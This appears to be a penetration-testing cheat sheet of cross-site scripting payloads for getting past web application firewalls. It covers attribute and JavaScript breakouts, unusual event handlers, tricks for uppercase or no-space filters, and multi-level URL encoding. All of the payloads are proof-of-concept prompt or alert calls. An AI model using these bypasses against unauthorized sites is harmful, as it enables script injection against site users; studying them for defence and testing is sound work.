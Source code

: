 Warning
==============

All the information provided on this site is for educational purposes only.

The site or the authors are not responsible for any misuse of the information.

You shall not misuse the information to gain unauthorized access and/or write malicious programs.

These information shall only be used to expand knowledge and not for causing malicious or damaging attacks.

Did you break out of a tag and script, iframe, img, a, etc are all blocked by the WAF?
==============

Did they block onerror onload onclick? It is important to remember that the basic events work even with elements not part of html. Try something like this:
```html
<XXXXXXX ondblclick=prompt(1)>Some Text, Don't even care to end the tag either.
```
If you just need to break out for Proof of Concept and can't use a > to close your tag, this will utilize the " or ' in your injection depending on the developer's choice for the attribute you are breaking.
```html
" onclick="prompt(1)
' onclick='prompt(1)
```
WAF got you down? There are a ton of bypasses, look at HTML5 for more ideas also (Just remember IE vs Firefox and HTML5 support.
```html
<body onpageshow="prompt(123)">
<details open ontoggle="prompt('xss via toggle')">Toggle Me For More prompts</details>
<details/open/ontoggle="alert`1`">
<video onmouseenter=prompt(123)>
<video onwheel=prompt(123)>
<math><maction actiontype="statusline" 
xlink:href="http://www.aswsec.com/pen-test/x.svg">CLICKME<mtext></mtext></maction>
```
Here you will find a great resource: https://html5sec.org/

Here you will find more ideas:
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20injection

Don't forget the injection might not be a form tag but in the javascript.
==============
```html
";prompt(1);//

';prompt(1);//
```

What if they are in a function? Break out of it. Count the brackets, etc to kill the function.
```html
"};prompt(1);//
```
You may need to reconstruct the function
```html
"};prompt(1);function whatever(){//
```
Sometimes you can't reconstruct but you can make the Javascript right
```
"},function(data){});prompt(1);(//
```
Don't forget %0D%0A if you need a new line and it renders as a new line

Obscure Breakout
==============
```html
a'*prompt(123)*'
<script>
var a = 'a'*prompt(123)*'a';
var b = "a"*prompt(456)*"a";
</script>
```
```
http://yourtarget/whatever?a=<a &a= onclick=prompt(123) &a= >adsf
```
That would render potentially
```html
<a , onclick=prompt(123) , >asdf
```
Event Handlers You Should Investigate to bypass WAF
==============
https://www.w3.org/TR/html52/single-page.html

When you can't use spaces
==============
```html
<details/open/ontoggle=prompt(123)>
```
When the text is forced UPPERCASE
==============
```html
<IMG SRC=1 ONERROR=&#X61;&#X6C;&#X65;&#X72;&#X74;(1)>
```
Just for fun
==============
```html
<a/href="data:text/html;charset=utf-8,<script>alert(123)</script>">Just Interesting</a>
```
Internet Explorer can be your friend
==============
A lot of times you will notice that " or ' has become %22 or %27 in Chrome, Firefox, Opera etc. But did you try Internet Explorer. Many times you can get an Internet Explorer only XSS due to how the browser works.

Interesting XSS
==============
```html
<xxxxxx onmouseover=confirm(/Mouse&nbsp;Test&nbsp;It/.source)>Example 123
<img src=a onerror="self['prompt'](2)">
```
Just a few things to remember
==============
```
%3c -- <
%3e -- >
%2b -- + (this is important for sql injection)
%26%2360; -- <
%26%2362; -- >
\u003C -- <
\x27 -- '
%26lt; or %26lt -- <
%26gt; or %26gt -- >
```
Double Encoding Example
```
%253c
```
Triple Encoding
```
%25253c
```
